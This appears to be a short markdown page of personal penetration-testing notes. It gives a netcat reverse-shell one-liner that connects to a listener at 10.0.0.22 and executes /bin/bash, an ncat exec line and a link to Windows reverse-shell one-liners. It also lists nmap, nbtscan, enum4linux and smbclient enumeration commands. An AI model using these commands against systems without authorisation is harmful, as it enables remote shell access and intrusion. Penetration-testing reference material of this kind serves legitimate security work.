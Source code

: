 ```yaml
---
layout: default
title: Notes on PT
permalink: /notes-pt/
---
```

# Tips PT RT

## Reverse shell

```bash
nc -nv 10.0.0.22 4444 -e /bin/bash
```

```bash
ncat --exec cmd.exe
```

https://www.hackingarticles.in/get-reverse-shell-via-windows-one-liner/

## Enumeration

### nmap
nmap IP -sT

nmap IP --script smb-os-discovery

nmap IP --script smb-*

nmap -sU --open -p 161 IP

Preferred
```
nmap IP -sC -oA nmap-sc
nmap IP -sC -pPORTE -sV -A -oA nmap-sc-sv-a
nmap IP -sC -pPORTE -sV --script=vuln -oA nmap-sc-sv-vuln
nmap IP -p- -sC -oA nmap-allp-sc
```
then some UDP
### nbtscan
nbtscan -r IP

### enum4linux
enum4linux -a IP

### smbclient

#### example with creds

smbclient -A credentials.txt //10.123.42.144/Doc

